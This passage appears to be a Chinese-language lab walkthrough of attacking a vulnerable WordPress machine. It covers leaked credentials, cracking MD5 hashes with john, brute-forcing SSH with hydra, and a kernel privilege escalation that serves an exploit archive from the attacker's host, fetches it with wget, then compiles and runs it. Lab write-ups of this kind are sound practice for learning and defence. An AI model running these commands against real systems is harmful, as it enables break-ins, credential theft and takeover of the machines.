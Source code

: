 ![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohvCSqsplpwbxg4yhjpUAgYiayJeuUiaic4w3c5SeiaBibK1h9ibYpVia2f7RGA/640?wx_fmt=png&from=appmsg "")  
这里爆出了peter的账户密码还有J的登录密码  
#### SHELL1：peter  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohlGq6yHfph2eegpAKO5bxttH6MzZryIq687zGjp7csy8cq6gkAAOWkg/640?wx_fmt=png&from=appmsg "")  
#### SHELL2，wordpress插件上传反弹shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohzKaQfv568vpyOzh1mRtkficyC1am10G5vYpYNbdqADTMQeM0X4kwqTA/640?wx_fmt=png&from=appmsg "")  
我们把数据库中的密码提取出来然后鉴定一下是什么加密  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohnc9oiaSMJGXp6KRQ81v7gP0w6p9WjSByqaCgM2uKFE7sBlPoe5VibTfw/640?wx_fmt=png&from=appmsg "")  
  
MD5加密我们使用john解密即可，只需要自己把密码写入一个txt文本就行了  
```
john --wordlist=/usr/share/wordlists/rockyou.txt /home/kali/Desktop/DC.txt

```  
  
用我们爆出来的密码登录之前的wordpress![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohYulj4gyAC26Wz2iacc1jms2bIaBGAXAnWaibSSGqy8lOy9sHbD5GHqBg/640?wx_fmt=png&from=appmsg "")  
ok，这里做法有很多，这上面一个上传插件![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZoh81mtiaNZTmLTWyyILO9IicALhV0aSnf7Zah2eMwcP0ktC3BD9ibdVooQA/640?wx_fmt=png&from=appmsg "")  
这里就是上传插件然后也是连接到一个ssh，但是这种方法跟数据库有关联，大概是可以用数据库写入一个木马。这种就不演示了  
#### 内核提权  
  
这种方法因该是最简单的  
```
uname -a
lsb_release -a
查看内核版本

hydra -L user2.txt -P user2.txt 192.168.66.178 ssh
这一条就是爆破ssh账户密码了

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZoh1WTxc3o5gwXSiacueeOvj3OdlyNWgjnlFR0KZsia7lpMJrh6R5R3ib5XQ/640?wx_fmt=png&from=appmsg "")  
扫出来了账户和密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT2gWVicYJxZmogr30cfgdZohcibFBwMu91bxeNTDaydgp65ngdubnRKdxP305eouoNg2Miadric0Hyt2w/640?wx_fmt=png&from=appmsg "")  
再扫一下版本内核，searchspliot找一下相关exp就可以了  
  
这里是exp使用教程，需要去github或者exp官网下载然后我们继续使用  
```
# Client
# 先下载到一个目录下，然后开启一个简易服务：
python3 -m http.server 8888

# Server 
wget http://192.168.244.133:8888/exploit.tar
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit/
./compile.sh
# 这里有报错，但是一切正常
./doubleput 

```  
  